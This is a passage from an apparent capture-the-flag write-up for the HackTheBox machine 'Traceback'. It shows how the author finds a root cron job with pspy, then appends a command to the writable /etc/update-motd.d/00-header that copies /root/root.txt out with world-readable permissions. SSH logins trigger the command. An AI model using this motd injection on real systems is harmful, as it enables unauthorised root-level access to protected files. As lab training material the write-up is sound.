 # root

We do not know sysadmin's password required to list our `sudo` right.

We run a simple `ps aux` to know which process are running. We see (that's some
luck) that root regularly execute the following command:
`/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/`

    ::text
    root      28855  0.0  0.0   4628   856 ?        Ss   02:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

We confirm that using [pspy](https://github.com/DominicBreuker/pspy) (using ssh
to copy the binary).

    :::text
    2020/03/26 03:07:01 CMD: UID=0    PID=29213  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
    2020/03/26 03:07:01 CMD: UID=0    PID=29212  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 

When looking at the `/var/backups/.update-motd.d` folder's permissions when see
that we can not write in any file nor create a file as everything belong to
`root`. Nevertheless, the `/etc/update-motd.d/` folder's permissions allow our
user to write in any file. We create a temporary folder and add a command to the
`00-header` file. That command will copy the file `/root/root.txt` and give us
the permissions to read it.

    :::text
    sysadmin@traceback:/etc/update-motd.d$ ls -al
    total 32
    drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
    drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
    -rwxrwxr-x  1 root sysadmin  981 Mar 26 03:59 00-header
    -rwxrwxr-x  1 root sysadmin  982 Mar 26 03:59 10-help-text
    -rwxrwxr-x  1 root sysadmin 4264 Mar 26 03:59 50-motd-news
    -rwxrwxr-x  1 root sysadmin  604 Mar 26 03:59 80-esm
    -rwxrwxr-x  1 root sysadmin  299 Mar 26 03:59 91-release-upgrade
    sysadmin@traceback:/etc/update-motd.d$ mkdir /tmp/ioio
    sysadmin@traceback:/etc/update-motd.d$ echo 'cp /root/root.txt /tmp/ioio && chmod 777 /tmp/ioio/root.txt' >> 00-header

We then quickly trigger the command by initiating a new SSH connection. We can
then grab the root flag.

    :::text
    ssh sysadmin@10.10.10.181
    #################################
    -------- OWNED BY XH4H  ---------
    - I guess stuff could have been configured better ^^ -
    #################################

    Welcome to Xh4H land 
